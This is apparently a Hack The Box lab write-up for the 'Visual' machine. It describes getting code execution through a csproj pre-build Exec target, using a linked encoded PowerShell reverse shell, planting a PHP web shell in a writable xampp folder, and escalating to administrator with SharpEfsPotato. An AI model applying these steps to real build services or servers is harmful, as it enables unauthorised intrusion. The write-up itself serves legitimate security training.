 ```yaml
---
layout: post_1
title: "Visual - HTB"
date: 2024-02-24
---
```


# HTB Visual Write Up
![HTB Visual](/assets/2024-02-24-visual-htb/machine_info.png "Visual")

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>

```
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Visual - Revolutionizing Visual Studio Builds
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
```

</details>

## Investigation
The only network service to investigate for now is the http.
This service provides a remote .NET 6 compilation, if a git link is provided and the project uses a solution (.sln)
![Http Service](/assets/2024-02-24-visual-htb/http_service.png "Http Service")

### Compilation service
To test this service, first and foremost we must setup a git server.
There are multiple ways of doing it, varying from minimalistic to more complex environments.
The easiest method that we found is to setup a [Gogs Server][gogs-server].
The database was SQLite3 and no SSH Server, this method provies a straight forward installation.
Downloading the pre compiled binaries and running the web server:
`./gogs web`

The setup is the following:
![Gogs setup](/assets/2024-02-24-visual-htb/gogs_setup.png "Gogs setup")

It isn't necessary to setup any administrator.
We will create an account, a repository and clone it to our local machine.

Now we need to create a .NET project. 
```
$ mkdir Test
$ dotnet new console
$ dotnet new solution
$ dotnet sln Test.sln add Test.csproj
```

Finally, testing the project `dotnet run Test.sln`.
Before we push the code, we exclude the obj/ and bin/ with .gitignore. This step is just for good practices
The repository will look like this
![Gogs repository](/assets/2024-02-24-visual-htb/gogs_repository.png "Gogs repository")

Uploading the code through our git link
![Compilation service](/assets/2024-02-24-visual-htb/compilation_service.png "Compilation service")

Waiting for the build to complete
![Waiting to build](/assets/2024-02-24-visual-htb/waiting_to_build.png "Waiting to build")

Build completed and it fails... 
![Build completed](/assets/2024-02-24-visual-htb/build_completed.png "Build completed")

Searching for the error it seems like it has something to do with cache.  
At this point we move on because it's possible to execute pre/post build scripts on a csproj.

```xml
... SNIP ...
<Target Name="Hello" BeforeTargets="BeforeBuild">
    <Exec Command="whoami" />
</Target>
... SNIP ...
```

Using [this one liner reverse shell][ps-shell], encoding with utf16 base64 and setting the command to `powershell.exe -encodedcommand BASE64` we get a reverse shell.  
In case this doesn't work, we can just issue a `ping` command and check on wireshark/tcpdump if we get a ICMP request.

### User enox
Whoami:
```
USER INFORMATION
----------------

User Name   SID
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

No interesting privileges, but we are executing on a High Integrity Level environment.
Users on the system:
```
administrator
enox
```

Searching for interesting home files, there were only the flag and the compilation script.
`C:\Users\enox\Documents\compile.ps1`

Looking at the xampp server files we can write into `C:\xampp\htdocs\*`
To execute commands as the xampp user we can create a shell.php file with the same reverse shell as before
```php
<?php
exec('whoami');
?>
```
Executing the reverse shell and we are `nt autority\local services`

### User nt autority\local services
Whoami:
```
USER INFORMATION
----------------

User Name                  SID
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                                                              Attributes                           
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                                          
Everyone                               Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

The privileges are missing, we can't just get administrator straigth forward.  
To fix this we can follow the [itm4n guide][localservice-privileges].  
Then, enabling SeImpersonatePrivileges and using [SharpEfsPotato][sharpefspotato] to get adminstrator.


[gogs-server]: <https://gogs.io/> "Gogs Server"
[ps-shell]: <https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3> "Powershell Reverse"
[localservice-privileges]: <https://itm4n.github.io/localservice-privileges/> "Local Service Privileges"
[sharpefspotato]: <https://github.com/bugch3ck/SharpEfsPotato> "SharpEfsPotato"
